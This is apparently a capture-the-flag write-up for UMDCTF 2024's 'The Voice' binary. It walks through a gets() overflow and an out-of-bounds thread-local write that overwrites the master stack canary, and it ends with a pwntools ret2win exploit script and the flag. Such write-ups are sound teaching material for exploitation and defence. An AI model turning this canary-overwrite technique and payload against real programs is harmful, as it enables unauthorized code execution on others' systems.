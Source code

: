 ```yaml
---
linkTitle: The Voice
title: The Voice [Writeup]
type: docs
math: True
weight: 1
---
```

## Challenge Description

> If you want the flag, command me to give it to you.

## Challenge Files
```c {filename=the_voice.c, linenos=table}
#include <stdio.h>
#include <stdlib.h>

__thread long long g[10];

void give_flag() {
    char buf[100];
    FILE* f = fopen("flag.txt", "r");
    fgets(buf, sizeof(buf), f);
    printf("%s\n", buf);
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);  

    puts("If you want the flag, command me to give it to you.");
    char command[16];
    
    gets(command);
    g[atoi(command)] = 10191;
}
```

## Solution 
Before inspecting the source code, let us first run `checksec` on the provided binary to look out for the security mitigations applied on this binary. 
```shell
fooker@fooker:~/ctfs/umdctf2024/the_voice$ checksec the_voice
[*] '~/ctfs/umdctf2024/the_voice/the_voice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
As shown in the above code snippet, the binary has no PIE enabled (the binary isn't a position independent executable). However, the binary has 
a `Stack Canary` enabled which implies that we must defeat this stack protection if we were to corrupt return addresses. Anyway, we could start examining the source code in search for any visible vulnerabilities. 

### Buffer Overflow at Line 21
There's an immediate buffer overflow vulnerability at `Line 21`. The source code uses the `gets()` function to read into the buffer `command`. However, `gets()` does not limit the number of bytes read into a buffer and hence we could easily overflow this buffer. Let's compute the offset of the pointer `*command` from the stack base pointer `rbp`. 

I'm gonna read in `8` bytes of garbage into the buffer and then set a break-point and then inspect the stack immediately after. 

```bash
───────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────
00:0000│ rcx rsp 0x7fffffffd870 ◂— 'AAAAAAAA'
01:0008│-018     0x7fffffffd878 ◂— 0x0
02:0010│-010     0x7fffffffd880 ◂— 0x1000
03:0018│-008     0x7fffffffd888 ◂— 0xac5f323021c39c00
04:0020│ rbp     0x7fffffffd890 ◂— 0x1
05:0028│+008     0x7fffffffd898 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
06:0030│+010     0x7fffffffd8a0 ◂— 0x0
07:0038│+018     0x7fffffffd8a8 —▸ 0x401266 (main) ◂— endbr64
─────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────
 ► 0         0x4012eb main+133
   1   0x7ffff7dabd90 __libc_start_call_main+128
   2   0x7ffff7dabe40 __libc_start_main+128
   3         0x401135 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>

```

From the above snippet, we can deduce that the pointer `*command` is at `rbp - 0x20`, which is `32` bytes below the base pointer. Recall that since the binary isn't a Position Independent Executable, therefore we could retrieve the address of the `give_flag()` function from the binary and perform a `ret2win` attack. However, we must defeat the stack canary mitigation before doing that.  

### Stack Canary Protection
This is honestly a cool and mind-blowing technique to defeat the stack canary. Before we get into how to bypass the stack canary, let's try to look out for all the stack canaries in our binary at the breakpoint we set above. 

```bash
pwndbg> canary
AT_RANDOM = 0x7fffffffdc09 # points to (not masked) global canary value
Canary    = 0xac5f323021c39c00 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│-008 0x7fffffffd888 ◂— 0xac5f323021c39c00
00:0000│+098 0x7fffffffd928 ◂— 0xac5f323021c39c00
pwndbg>

```
So here we can see something known as the `global canary value`. As it turns out, when the stack canary protection is enabled in a binary, the C runtime initialisation invokes the creation of the canary value. The canary is random bytes generated by the kernel with the least significant byte replaced by a `0`. This is another protection for prevention of canary leaks. The canary initialised is actually the global canary value or the master canary in a program, which is stored in the TCB (Thread Control Block). On the i386 architecture, the global canary is stored at `gs:0x14`, and on x86_64, at `fs:0x28`. We could easily verify this from the disassembly of the binary. 

```bash
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000401266 <+0>:     endbr64
   0x000000000040126a <+4>:     push   rbp
   0x000000000040126b <+5>:     mov    rbp,rsp
   0x000000000040126e <+8>:     sub    rsp,0x20
   0x0000000000401272 <+12>:    mov    rax,QWORD PTR fs:0x28
   0x000000000040127b <+21>:    mov    QWORD PTR [rbp-0x8],rax
```

As seen above, during the initilisation of a new stack frame, a seemingly mysterious value is copied from `fs:0x28` and stored into the location `[rbp - 0x8]`. This is nothing but the stack canary! The stack canary protection works as follows:

```bash
   0x00000000004012eb <+133>:   mov    QWORD PTR fs:[rax*8-0x50],0x27cf
   0x00000000004012f8 <+146>:   mov    eax,0x0
   0x00000000004012fd <+151>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401301 <+155>:   sub    rdx,QWORD PTR fs:0x28
   0x000000000040130a <+164>:   je     0x401311 <main+171>
   0x000000000040130c <+166>:   call   0x4010b0
   0x0000000000401311 <+171>:   leave
   0x0000000000401312 <+172>:   ret
```

Right before the stack frame is popped off, the value loaded from `fs:0x28` is compared against the value stored in `[rbp-0x8]`. If these two values match then the program continues an expected flow of instruction. However, if a modification is detected the program calls `__stack_chk_fail@plt` from the `PLT (Procedure Linkage Table)` and the program terminates with the message `*** stack smashing detected ***`

### Overwriting the Master Canary

Now that we know how the stack protection works, we shall try to exploit this. Firstly, let's take a look at the assembly corresponding to `Line 22` in the source code. 

```bash
   0x00000000004012eb <+133>:   mov    QWORD PTR fs:[rax*8-0x50],0x27cf  ## g[atoi(command)] = 10191;
```
The takeaway is that `0x27cf` is loaded in the location `fs:[rax*8-0x50]`. If we could load this into `fs:0x28` this would overwrite the master canary and then we could craft the `ret2win` attack. Inspecting the assembly a bit more 

```bash
   0x00000000004012dd <+119>:   lea    rax,[rbp-0x20]
   0x00000000004012e1 <+123>:   mov    rdi,rax
   0x00000000004012e4 <+126>:   call   0x401100
   0x00000000004012e9 <+131>:   cdqe
```

we conclude that if we could load `(0x28 + 0x50) // 8` into `[rbp - 0x20]` we could force the program to overwrite the master canary! And we shall do exactly that in the following exploit!

```py {filename=exploit.py, linenos=table}
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './the_voice'
elf = context.binary = ELF(exe, checksec=True)

context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]

host, port = 'challs.umdctf.io', 31192

def initialize(argv=[]):
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

r = initialize()

# =========================================================
#                         EXPLOITS
# =========================================================

payload = flat({
    0x00: b'15', 
    0x18: 0x27cf,
    0x28: elf.sym['give_flag']
})

r.sendlineafter(b"If you want the flag, command me to give it to you.", payload)
r.recvline()

r.interactive()
```

## Flag
```
UMDCTF{pwn_g3ss3r1t_sk1ll5_d0nt_tak3_a5_many_y3ar5_t0_l3arn_pau1}
```
